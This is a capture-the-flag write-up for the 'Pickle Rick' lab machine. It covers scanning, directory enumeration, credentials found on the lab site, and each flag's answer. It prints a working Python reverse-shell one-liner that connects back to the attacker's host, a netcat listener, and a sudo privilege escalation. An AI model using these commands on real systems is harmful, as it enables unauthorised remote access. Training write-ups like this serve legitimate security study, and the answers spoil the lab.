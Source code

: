 # Pickle Rick

* IP=10.10.61.126

## Nmap scan report:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0a:0c:98:e3:b0:cc:bb:31:bb:9b:d1:72:4d:d5:19:9b (RSA)
|   256 f0:0c:16:42:28:8c:e5:20:c0:a1:74:60:23:37:8a:27 (ECDSA)
|_  256 8f:fe:50:7c:08:6c:24:d8:25:af:4d:f5:3b:e0:53:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## GoBuster report:
```
=====================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)

```
### Login Creds at /login.php:
```
Username: R1ckRul3s
robots.txt: Wubbalubbadubdub (password)
```
## Questions/Tasks:

1. What is the first ingredient Rick needs?
```bash
while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt
```
OR
```bash
grep . Sup3rS3cretPickl3Ingred.txt
```
Ans- mr. meeseek hair

2. Whats the second ingredient Rick needs?

* Python3 reverse shell on the command panel:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.50.128",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Listen on port 7777:
```bash
nc -lnvp 7777
```
* Elevate the shell:
```
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
!nc
export TERM=xterm
```
* Navigate to /home/rick
* home directory contents:
```bash
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```
```
cat 'second ingredients'
```
Ans- 1 jerry tear

3. Whats the final ingredient Rick needs?

* Check sudo permissions(commands that can be run with sudo)
```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-61-126.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-61-126.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
* Since sudo is set to no password, hence we can escalate privileges just by:
```bash
sudo bash
```
* Navigate to /root and find the 3rd.txt

Ans- fleeb juice
